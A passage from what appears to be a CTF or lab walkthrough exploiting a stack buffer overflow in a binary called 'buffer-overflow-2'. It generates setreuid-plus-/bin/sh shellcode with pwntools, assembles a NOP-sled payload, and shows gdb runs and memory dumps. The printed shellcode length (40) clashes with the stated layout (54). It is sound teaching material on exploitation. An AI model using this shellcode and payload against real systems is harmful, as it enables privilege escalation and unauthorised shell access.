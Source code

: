 Let's generate the prefix for our shellcode:
~~~
$ pwn shellcraft -f d amd64.linux.setreuid 1003
\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
$ python
>>> len('\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05')
14
~~~


```python
>>> shellcode = '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'
>>> len(shellcode)
40
```

**Return address**

Now, let's have a look at our payload. It should look like this:

~~~
┌───────────────────┬────────────────────┬────────────────────┬────────────────────┐
│ NOP sled (90)     │ shellcode (54)     │ random chars (19)  │ Memory address (6) │
└───────────────────┴────────────────────┴────────────────────┴────────────────────┘
total length = 90 + 54 + 19 + 6 = 169
~~~

```python
>>> payload = 'A'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6
>>> len(payload)
169
```

Let's debug:

~~~
$ gdb -q buffer-overflow-2
Reading symbols from buffer-overflow-2...(no debugging symbols found)...done.
(gdb) run $(python -c "print('A'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6)")
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print('A'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6)")
Missing separate debuginfos, use: debuginfo-install glibc-2.26-32.amzn2.0.1.x86_64
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1�f��jqXH��j;XH1�I�//bin/shI�APH��RWH��j<XH1�BBBBBBBBBBBBBBBBBBBCCCCCC

Program received signal SIGSEGV, Segmentation fault.
0x0000434343434343 in ?? ()
(gdb) x/100x $rsp-200
0x7fffffffe208:	0x004005a9	0x00000000	0xf7ffa268	0x00007fff
0x7fffffffe218:	0xffffe62c	0x00007fff	0x67676f64	0x4141416f
0x7fffffffe228:	0x41414141	0x41414141	0x41414141	0x41414141 <--- will be our NOP sled (currently 'A')
0x7fffffffe238:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe248:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe258:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe268:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe278:	0x41414141	0x31414141	0xebbf66ff	0x58716a03 <--- shellcode
0x7fffffffe288:	0x0ffe8948	0x583b6a05	0x49d23148	0x622f2fb8
0x7fffffffe298:	0x732f6e69	0xe8c14968	0x48504108	0x5752e789
0x7fffffffe2a8:	0x0fe68948	0x583c6a05	0x0fff3148	0x42424205
0x7fffffffe2b8:	0x42424242	0x42424242	0x42424242	0x42424242 <--- random chars
~~~